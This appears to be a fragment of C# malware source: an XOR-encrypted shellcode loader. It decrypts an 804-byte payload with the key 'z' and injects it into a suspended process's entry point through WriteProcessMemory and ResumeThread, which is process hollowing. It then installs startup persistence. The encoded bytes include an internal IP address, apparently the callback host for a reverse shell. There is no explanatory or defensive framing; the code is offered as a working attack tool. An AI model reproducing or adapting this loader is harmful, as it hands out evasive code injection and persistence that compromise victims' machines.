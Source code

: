 ```csharp
            byte[] buf = new byte[804] { 0x86, 0x32, 0xf9, 0x9e, 0x8a, 0x92, 0xb6, 0x7a, 0x7a, 0x7a, 0x3b, 0x2b, 0x3b, 0x2a, 0x28, 0x32, 0x4b, 0xa8, 0x2b, 0x1f, 0x32, 0xf1, 0x28, 0x1a, 0x32, 0xf1, 0x28, 0x62, 0x2c, 0x32, 0xf1, 0x28, 0x5a, 0x32, 0xf1, 0x08, 0x2a, 0x32, 0x75, 0xcd, 0x30, 0x30, 0x37, 0x4b, 0xb3, 0x32, 0x4b, 0xba, 0xd6, 0x46, 0x1b, 0x06, 0x78, 0x56, 0x5a, 0x3b, 0xbb, 0xb3, 0x77, 0x3b, 0x7b, 0xbb, 0x98, 0x97, 0x28, 0x3b, 0x2b, 0x32, 0xf1, 0x28, 0x5a, 0xf1, 0x38, 0x46, 0x32, 0x7b, 0xaa, 0x1c, 0xfb, 0x02, 0x62, 0x71, 0x78, 0x75, 0xff, 0x08, 0x7a, 0x7a, 0x7a, 0xf1, 0xfa, 0xf2, 0x7a, 0x7a, 0x7a, 0x32, 0xff, 0xba, 0x0e, 0x1d, 0x32, 0x7b, 0xaa, 0x2a, 0xf1, 0x32, 0x62, 0x3e, 0xf1, 0x3a, 0x5a, 0x33, 0x7b, 0xaa, 0x99, 0x2c, 0x32, 0x85, 0xb3, 0x37, 0x4b, 0xb3, 0x3b, 0xf1, 0x4e, 0xf2, 0x32, 0x7b, 0xac, 0x32, 0x4b, 0xba, 0x3b, 0xbb, 0xb3, 0x77, 0xd6, 0x3b, 0x7b, 0xbb, 0x42, 0x9a, 0x0f, 0x8b, 0x36, 0x79, 0x36, 0x5e, 0x72, 0x3f, 0x43, 0xab, 0x0f, 0xa2, 0x22, 0x3e, 0xf1, 0x3a, 0x5e, 0x33, 0x7b, 0xaa, 0x1c, 0x3b, 0xf1, 0x76, 0x32, 0x3e, 0xf1, 0x3a, 0x66, 0x33, 0x7b, 0xaa, 0x3b, 0xf1, 0x7e, 0xf2, 0x32, 0x7b, 0xaa, 0x3b, 0x22, 0x3b, 0x22, 0x24, 0x23, 0x20, 0x3b, 0x22, 0x3b, 0x23, 0x3b, 0x20, 0x32, 0xf9, 0x96, 0x5a, 0x3b, 0x28, 0x85, 0x9a, 0x22, 0x3b, 0x23, 0x20, 0x32, 0xf1, 0x68, 0x93, 0x31, 0x85, 0x85, 0x85, 0x27, 0x32, 0x4b, 0xa1, 0x29, 0x33, 0xc4, 0x0d, 0x13, 0x14, 0x13, 0x14, 0x1f, 0x0e, 0x7a, 0x3b, 0x2c, 0x32, 0xf3, 0x9b, 0x33, 0xbd, 0xb8, 0x36, 0x0d, 0x5c, 0x7d, 0x85, 0xaf, 0x29, 0x29, 0x32, 0xf3, 0x9b, 0x29, 0x20, 0x37, 0x4b, 0xba, 0x37, 0x4b, 0xb3, 0x29, 0x29, 0x33, 0xc0, 0x40, 0x2c, 0x03, 0xdd, 0x7a, 0x7a, 0x7a, 0x7a, 0x85, 0xaf, 0x92, 0x74, 0x7a, 0x7a, 0x7a, 0x4b, 0x43, 0x48, 0x54, 0x4b, 0x4c, 0x42, 0x54, 0x4b, 0x54, 0x48, 0x4a, 0x43, 0x7a, 0x20, 0x32, 0xf3, 0xbb, 0x33, 0xbd, 0xba, 0xc1, 0x7b, 0x7a, 0x7a, 0x37, 0x4b, 0xb3, 0x29, 0x29, 0x10, 0x79, 0x29, 0x33, 0xc0, 0x2d, 0xf3, 0xe5, 0xbc, 0x7a, 0x7a, 0x7a, 0x7a, 0x85, 0xaf, 0x92, 0x80, 0x7a, 0x7a, 0x7a, 0x55, 0x18, 0x0e, 0x2f, 0x08, 0x2a, 0x4e, 0x29, 0x36, 0x11, 0x1f, 0x1e, 0x17, 0x4f, 0x17, 0x1c, 0x11, 0x3b, 0x57, 0x4d, 0x1e, 0x31, 0x1d, 0x4a, 0x19, 0x37, 0x0d, 0x3d, 0x38, 0x2f, 0x28, 0x30, 0x00, 0x0b, 0x22, 0x08, 0x19, 0x2e, 0x3b, 0x4e, 0x3e, 0x1e, 0x0d, 0x29, 0x1e, 0x1f, 0x3c, 0x29, 0x2e, 0x2c, 0x43, 0x3c, 0x3f, 0x2e, 0x30, 0x2f, 0x1e, 0x3d, 0x0b, 0x32, 0x3f, 0x35, 0x57, 0x39, 0x1b, 0x13, 0x10, 0x43, 0x19, 0x35, 0x37, 0x0b, 0x4e, 0x09, 0x16, 0x17, 0x02, 0x16, 0x4c, 0x28, 0x4a, 0x30, 0x30, 0x2f, 0x31, 0x28, 0x3f, 0x4f, 0x19, 0x33, 0x12, 0x0e, 0x25, 0x2b, 0x4d, 0x2f, 0x39, 0x1f, 0x1b, 0x3d, 0x48, 0x0d, 0x02, 0x4a, 0x2b, 0x2d, 0x3d, 0x16, 0x28, 0x4a, 0x57, 0x57, 0x22, 0x10, 0x4c, 0x16, 0x3d, 0x4a, 0x1b, 0x0a, 0x14, 0x02, 0x00, 0x03, 0x08, 0x0b, 0x29, 0x35, 0x3c, 0x08, 0x25, 0x4e, 0x12, 0x0c, 0x3e, 0x2b, 0x0a, 0x29, 0x2e, 0x33, 0x19, 0x1c, 0x2e, 0x11, 0x4b, 0x4a, 0x33, 0x17, 0x2c, 0x11, 0x34, 0x29, 0x25, 0x12, 0x0f, 0x2b, 0x4a, 0x57, 0x57, 0x15, 0x28, 0x3f, 0x11, 0x37, 0x1e, 0x49, 0x03, 0x0e, 0x4e, 0x43, 0x16, 0x1f, 0x42, 0x17, 0x31, 0x49, 0x3b, 0x4f, 0x02, 0x4d, 0x2e, 0x10, 0x35, 0x2e, 0x0c, 0x3c, 0x13, 0x20, 0x2b, 0x17, 0x10, 0x4f, 0x29, 0x12, 0x19, 0x11, 0x16, 0x37, 0x1c, 0x08, 0x39, 0x2d, 0x32, 0x48, 0x3e, 0x39, 0x4c, 0x03, 0x4b, 0x2f, 0x39, 0x1f, 0x22, 0x1c, 0x08, 0x1d, 0x0a, 0x03, 0x30, 0x1f, 0x02, 0x16, 0x29, 0x3d, 0x16, 0x08, 0x00, 0x39, 0x0f, 0x1d, 0x18, 0x35, 0x09, 0x25, 0x19, 0x25, 0x48, 0x0a, 0x2d, 0x22, 0x13, 0x42, 0x0a, 0x0b, 0x0e, 0x09, 0x25, 0x43, 0x2d, 0x7a, 0x32, 0xf3, 0xbb, 0x29, 0x20, 0x3b, 0x22, 0x37, 0x4b, 0xb3, 0x29, 0x32, 0xc2, 0x7a, 0x48, 0xd2, 0xfe, 0x7a, 0x7a, 0x7a, 0x7a, 0x2a, 0x29, 0x29, 0x33, 0xbd, 0xb8, 0x91, 0x2f, 0x54, 0x41, 0x85, 0xaf, 0x32, 0xf3, 0xbc, 0x10, 0x70, 0x25, 0x32, 0xf3, 0x8b, 0x10, 0x65, 0x20, 0x28, 0x12, 0xfa, 0x49, 0x7a, 0x7a, 0x33, 0xf3, 0x9a, 0x10, 0x7e, 0x3b, 0x23, 0x33, 0xc0, 0x0f, 0x3c, 0xe4, 0xfc, 0x7a, 0x7a, 0x7a, 0x7a, 0x85, 0xaf, 0x37, 0x4b, 0xba, 0x29, 0x20, 0x32, 0xf3, 0x8b, 0x37, 0x4b, 0xb3, 0x37, 0x4b, 0xb3, 0x29, 0x29, 0x33, 0xbd, 0xb8, 0x57, 0x7c, 0x62, 0x01, 0x85, 0xaf, 0xff, 0xba, 0x0f, 0x65, 0x32, 0xbd, 0xbb, 0xf2, 0x69, 0x7a, 0x7a, 0x33, 0xc0, 0x3e, 0x8a, 0x4f, 0x9a, 0x7a, 0x7a, 0x7a, 0x7a, 0x85, 0xaf, 0x32, 0x85, 0xb5, 0x0e, 0x78, 0x91, 0xd0, 0x92, 0x2f, 0x7a, 0x7a, 0x7a, 0x29, 0x23, 0x10, 0x3a, 0x20, 0x33, 0xf3, 0xab, 0xbb, 0x98, 0x6a, 0x33, 0xbd, 0xba, 0x7a, 0x6a, 0x7a, 0x7a, 0x33, 0xc0, 0x22, 0xde, 0x29, 0x9f, 0x7a, 0x7a, 0x7a, 0x7a, 0x85, 0xaf, 0x32, 0xe9, 0x29, 0x29, 0x32, 0xf3, 0x9d, 0x32, 0xf3, 0x8b, 0x32, 0xf3, 0xa0, 0x33, 0xbd, 0xba, 0x7a, 0x5a, 0x7a, 0x7a, 0x33, 0xf3, 0x83, 0x33, 0xc0, 0x68, 0xec, 0xf3, 0x98, 0x7a, 0x7a, 0x7a, 0x7a, 0x85, 0xaf, 0x32, 0xf9, 0xbe, 0x5a, 0xff, 0xba, 0x0e, 0xc8, 0x1c, 0xf1, 0x7d, 0x32, 0x7b, 0xb9, 0xff, 0xba, 0x0f, 0xa8, 0x22, 0xb9, 0x22, 0x10, 0x7a, 0x23, 0xc1, 0x9a, 0x67, 0x50, 0x70, 0x3b, 0xf3, 0xa0, 0x85, 0xaf };
            //// XOR decrypt, key is set to z
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(buf[i] ^ (byte)'z');
            }
            WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);
            ResumeThread(pi.hThread);
            // After shellcode execution run startup persistence
            Persistence.ExecOnStartup();
        } 
```

